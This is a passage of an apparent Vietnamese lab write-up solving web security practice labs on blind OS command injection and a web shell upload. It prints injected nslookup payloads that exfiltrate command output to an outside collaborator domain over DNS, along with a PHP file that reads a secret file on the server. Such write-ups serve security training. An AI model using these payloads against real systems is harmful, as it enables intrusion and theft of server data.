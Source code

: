 <hr>

### Bài 4: Blind OS command injection with out-of-band interaction
>![](https://i.imgur.com/1SEc78H.png)

Bài này không trả kết quả command về người dùng, cũng không có thư mục nào có thể ghi file, đòi hỏi ta chuyển hướng kết quả lên `DNS lookup`, thực hiện một cuộc khai thác `out-of-band`

Ý tưởng là ta sẽ sử dụng lệnh `nslookup` tới domain của ta 
Payload 
`; nslookup e7msbjin6a0iov44dyfmzxm6qxwnkc.oastify.com ;` (domain của ta)
Kết quả:
>![](https://i.imgur.com/Q0JQUH2.png)
>![](https://i.imgur.com/NXiuoKA.png)

<hr>

### Bài 5: Blind OS command injection with out-of-band data exfiltration
>![](https://i.imgur.com/rVnLOJz.png)

Bài này cũng giống bài trên, chỉ khác là ta sẽ nhúng kết quả câu lệnh vào DNS query dưới dạng subdomain.
Payload sẽ như thế này.
`; nslookup ${whoami}.ovn2zt6xukosc5se183wn7age7ky8n.oastify.com;` (phía sau là domain của ta)
Kết quả:
>![](https://i.imgur.com/tMu29qm.png)

**solved**
>![](https://i.imgur.com/t78GnpV.png)

<hr>
<hr>

## Directory Traversal
### Bài 1: Remote code execution via web shell upload
>![](https://i.imgur.com/oc8VEc9.png)

Mô tả nói rằng trang web bị lỗ hổng file upload ở chúc năng upload avatar. 
Ta thử viết 1 file php có nội dung như sau
```php
<?php
echo file_get_contents("/home/carlos/secret");
?>
```
Upload file lên và truy cập tới file thông qua đường dẫn của avatar, ta thấy trả về là nội dung của file `secret` như sau:
>![](https://i.imgur.com/DxouSIY.png)

Submit nội dung này là ta solve bài lab
>![](https://i.imgur.com/YnruuSF.png)

<hr>
